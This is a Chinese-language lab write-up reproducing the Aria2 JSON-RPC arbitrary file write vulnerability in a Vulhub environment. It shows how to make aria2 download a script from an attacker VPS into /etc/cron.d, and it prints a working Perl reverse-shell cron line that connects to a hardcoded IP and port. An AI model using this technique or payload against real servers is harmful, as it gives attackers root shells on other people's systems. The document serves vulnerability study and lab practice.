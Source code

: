 # Aria2 任意文件写入漏洞

## 漏洞描述

Aria2是一个命令行下轻量级、多协议、多来源的下载工具（支持 HTTP/HTTPS、FTP、BitTorrent、Metalink），内建XML-RPC和JSON-RPC接口。在有权限的情况下，我们可以使用RPC接口来操作aria2来下载文件，将文件下载至任意目录，造成一个任意文件写入漏洞。

参考文章：https://paper.seebug.org/120/

## 环境搭建

Vulhub启动漏洞环境：

```
docker-compose up -d
```

6800是aria2的rpc服务的默认端口，环境启动后，访问`http://your-ip:6800/`，发现服务已启动并且返回404页面。

## 漏洞复现

因为rpc通信需要使用json或者xml，不太方便，所以我们可以借助第三方UI来和目标通信，如 http://binux.github.io/yaaw/demo/ 。

打开yaaw，点击配置按钮，填入运行aria2的目标域名：`http://your-ip:6800/jsonrpc`

![image-20220221192510551](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211925680.png)

然后点击Add，增加一个新的下载任务，将另一台VPS服务器上的反弹shell脚本下载至/etc/cron.d。

在Dir的位置填写下载至的目录，File Name处填写文件名。比如，我们通过写入一个crond任务来反弹shell：

![image-20220221193153466](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211931602.png)

这时候，arai2会将恶意文件（我指定的另一台VPS服务器上的URL，为http://xxx.xxx.xxx.xxx/reverse_shell.sh）下载到/etc/cron.d/目录下，文件名为shell。而在debian中，/etc/cron.d目录下的所有文件将被作为计划任务配置文件（类似crontab）读取，等待一分钟不到即成功反弹shell：

```
* * * * * root /usr/bin/perl -e 'use Socket;$i="192.168.174.128";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

使用crontab -l命令查看定时任务，并不能查看到我们设置的反弹shell。

cron执行时要读取三个地方的配置文件：一是/etc/crontab，二是/etc/cron.d目录下的所有文件，三是每个用户的配置文件。

![image-20220221200226656](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202212002737.png)

> 如果反弹不成功，注意crontab文件的格式，以及换行符必须是`\n`，且文件结尾需要有一个换行符（建议直接在VPS服务器上执行vim）。

![image-20220221200141108](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202212001183.png)

当然，我们也可以尝试写入其他文件，更多利用方法可以参考[这篇文章](https://paper.seebug.org/120/)。

